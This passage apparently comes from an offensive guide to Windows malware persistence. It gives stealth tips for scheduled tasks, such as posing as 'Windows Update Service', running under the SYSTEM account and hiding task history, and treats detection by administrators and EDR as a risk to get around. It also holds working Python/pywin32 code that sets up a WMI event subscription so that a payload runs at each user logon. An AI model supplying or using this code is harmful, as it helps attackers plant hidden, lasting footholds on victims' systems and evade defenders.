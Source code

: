 ```python
        print(f"[-] Error: {e}")
```

#### **Stealth Techniques**  
- **Legitimate-Sounding Task Names**: Use names like `"Windows Update Service"` or `"System Maintenance"` to avoid suspicion.  
- **SYSTEM Account Execution**: Run tasks under the `SYSTEM` account to bypass user-level restrictions.  
- **Hidden Tasks**: Disable task history and set tasks to run only when the user is logged on.  

#### **Detection Risks**  
- **Manual Inspection**: Users or administrators may detect tasks via `schtasks /query`.  
- **EDR Monitoring**: Advanced tools may flag tasks with suspicious triggers or execution contexts.  

---

### **3. WMI Event Subscriptions**

Windows Management Instrumentation (WMI) can be exploited to create event-driven persistence. By binding event filters to consumers, the payload can execute in response to system events (e.g., user logon).  

#### **Implementation in Python**  
Using the `pywin32` library, WMI event subscriptions can be created:  

```python
import win32com.client

def create_wmi_persistence(executable_path):
    try:
        wmi = win32com.client.GetObject("winmgmts:")
        # Create event filter (trigger on user logon)
        filter_name = "UserLogonEventFilter"
        filter_query = "SELECT * FROM __InstanceCreationEvent WITHIN 2 WHERE TargetInstance ISA 'Win32_LogonSession'"
        filter = wmi.Get("__EventFilter").SpawnInstance_()
        filter.Name = filter_name
        filter.QueryLanguage = "WQL"
        filter.Query = filter_query
        filter.Put_()
        
        # Create event consumer (execute payload)
        consumer_name = "UserLogonConsumer"
        consumer = wmi.Get("CommandLineEventConsumer").SpawnInstance_()
        consumer.Name = consumer_name
        consumer.CommandLineTemplate = executable_path
        consumer.Put_()
        
        # Bind filter to consumer
        binding = wmi.Get("__FilterToConsumerBinding").SpawnInstance_()
        binding.Filter = wmi.Get(f"__EventFilter.Name='{filter_name}'")
        binding.Consumer = wmi.Get(f"CommandLineEventConsumer.Name='{consumer_name}'")
        binding.Put_()
        
        print("[+] WMI persistence established.")
    except Exception as e:
        print(f"[-] Error: {e}")
```
